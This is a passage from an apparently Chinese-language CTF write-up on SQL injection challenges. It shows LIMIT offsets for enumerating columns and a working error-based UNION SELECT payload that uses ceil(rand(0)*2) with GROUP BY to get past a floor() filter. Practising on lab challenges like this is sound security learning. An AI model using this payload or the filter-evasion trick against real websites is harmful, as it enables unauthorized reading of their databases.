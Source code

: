![2464](/medias/show-sql/2464.png)

在爆字段时，如果flag字段没第一个显示出来，通过`limit`往前面`limit 0,1`,往后看`limit 2,1`，`limit 3,1`，直到显示出

![2465](/medias/show-sql/2465.png)

## web 247

`floor`过滤了，还有类似`floor`的`ceil`，拿上题的payload换壳接着打

跑酷

```sql
?id=1'union select 1,count(*),concat(ceil(rand(0)*2),database() )x from information_schema.character_sets group by x;%23
```

爆字段，字段名里有一个问号，待会需要使用反引号处理

![247](/medias/show-sql/247.png)
